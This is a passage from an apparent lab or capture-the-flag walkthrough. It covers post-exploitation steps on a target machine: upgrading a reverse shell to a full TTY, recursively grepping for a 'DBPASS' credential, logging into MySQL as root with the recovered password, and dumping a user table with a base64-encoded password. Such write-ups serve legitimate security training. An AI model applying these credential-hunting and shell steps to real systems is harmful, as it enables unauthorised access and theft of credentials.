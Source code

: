 
The web server has been launched on port 80 and the reverse shell on port 21. Apparently, the reverse shell does not work through ports that are not open to the system. Once the reverse shell is obtained, we proceed to do a TTY treatment to obtain a fully interactive console. To do this, we execute the following commands:
```sh
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size
stty rows X cols X
```

### 3 Pivot to User Michael

Since we have a running MySQL database, we have tried to find out if such a database can be accessed. To do this, the grep command has been used recursively in search of the "DBPASS" key, which may contain the password of the database. The command looks a bit weird due to the incorrect size of the TTY, but the command is:
```sh
grep -rni –exclude-dir={proc,sys,dev,bin} –color=auto “DBPASS” | 2>/dev/null
```

![image](Picture12.png)


Database access credentials have been found. Now you need to connect using the following command:
```sh
mysql --host=127.0.0.1 --user=root --password=_MalapropDoffUtilize1337_ SimplePHPGal
```

![image](Picture13.png)


Unfolding the user table, we can see that the passwords are converted to what appears to be base64:

| josh | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
